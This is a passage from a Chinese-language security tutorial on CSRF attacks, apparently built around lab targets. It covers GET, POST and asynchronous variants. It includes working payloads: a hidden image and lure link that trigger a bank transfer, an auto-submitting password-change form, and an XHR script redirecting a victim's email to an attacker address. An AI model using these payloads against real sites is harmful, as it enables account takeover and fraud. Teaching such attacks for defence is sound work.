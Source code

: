 CSRF 经常与 XSS (跨站脚本攻击) 结合使用，以实现更复杂、更隐蔽的攻击（例如，XSS 可以用来窃取 CSRF Token 或发起更复杂的 AJAX CSRF 请求）。

### 四、 CSRF 分类与常见利用方式 (Classification and Common Exploitation)

CSRF 漏洞通常根据触发请求的 HTTP 方法和技术进行分类：

*   **GET 型 CSRF**:
    *   **利用方式**: 通过 HTML 标签的 `src` 或 `href` 属性，这些标签在加载时会发起 GET 请求。常见如：
        *   `<img>` 标签的 `src` 属性。
        *   `<script>` 标签的 `src` 属性。
        *   `<iframe>` 标签的 `src` 属性。
        *   `<a>` 标签的 `href` 属性 (需要用户点击)。
        *   CSS 中的 `background: url(...)`。
        *   `<link rel="stylesheet" href="...">`。
    *   **特点**: 构造简单，易于通过链接、图片等方式传播。通常用于读取数据或执行设计不当的、可通过 GET 请求改变状态的操作。
    *   **示例 (隐藏图片利用)**: 攻击者可以在恶意页面中插入一个 0x0 像素（用户不可见）的图片，其 `src` 指向目标网站的一个会产生副作用的 GET 请求 URL。例如：
        ```html
        <!-- 假设访问此 URL 会将受害者账户的 1000 元转给 GB82MYBANK5698 -->
        <img src="http://mybank.thm:8080/dashboard.php?to_account=GB82MYBANK5698&amount=1000" width="0" height="0" border="0">
        ```
        或者将恶意 URL 放在一个诱导用户点击的链接中：
        ```html
        <a href="http://mybank.thm:8080/dashboard.php?to_account=GB82MYBANK5698&amount=1000" target="_blank">点击这里领取奖励！</a>
        ```
        当已登录 `mybank.thm` 的用户访问包含此代码的页面或点击链接时，请求会被发送，如果后端没有验证，转账就会发生。

*   **POST 型 CSRF (传统 CSRF)**:
    *   **利用方式**: 需要构造一个 HTML `<form>`，其 `action` 指向目标网站的操作 URL，`method` 为 `POST`，并包含所有必要的参数。然后通过 JavaScript 自动提交这个表单。
    *   **特点**: 主要针对需要通过 POST 请求执行的敏感操作（如修改密码、创建用户、提交订单等）。攻击者通常会将这个自动提交的表单放在一个恶意页面上，诱导用户访问。
    *   **示例**:
        ```html
        <html>
          <body onload="document.csrfForm.submit()"> <!-- 页面加载时自动提交 -->
            <form name="csrfForm" action="http://target.com/change_password" method="POST">
              <input type="hidden" name="new_password" value="hackedPassword123">
              <input type="hidden" name="confirm_password" value="hackedPassword123">
              <!-- 可能还需要其他必要的参数 -->
            </form>
            <p>页面加载中...</p>
          </body>
        </html>
        ```

*   **XMLHttpRequest CSRF (异步 CSRF)**:
    *   **利用方式**: 使用 JavaScript 中的 `XMLHttpRequest` 对象或 `Fetch API` 发起异步的 HTTP 请求（GET, POST, PUT, DELETE 等）到目标网站的 API 端点。
    *   **特点**: 常见于现代 Web 应用（单页应用 SPA 等），这些应用大量使用 AJAX 进行前后端交互，用户操作通常不引起整个页面刷新。攻击者可以构造恶意脚本，在用户访问恶意页面时，在后台悄悄地向目标网站的 API 发送伪造的请求。
    *   **示例 (更新邮箱)**: 假设 `mailbox.thm/api/updateEmail` 是一个接受 POST 请求更改用户邮箱设置的 API。攻击者可以在恶意页面嵌入如下脚本：
        ```javascript
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://mailbox.thm/api/updateEmail', true);
        // 如果目标 API 需要特定的 Content-Type
        xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
        // 注意：浏览器会自动发送 mailbox.thm 的 cookie
        xhr.send(JSON.stringify({ email: 'attacker@evil.com' }));
        ```
        如果 `mailbox.thm` 的 API 没有 CSRF 防护，并且仅依赖 Cookie 认证，那么当已登录的用户访问包含此脚本的页面时，他们的邮箱设置会被更改。
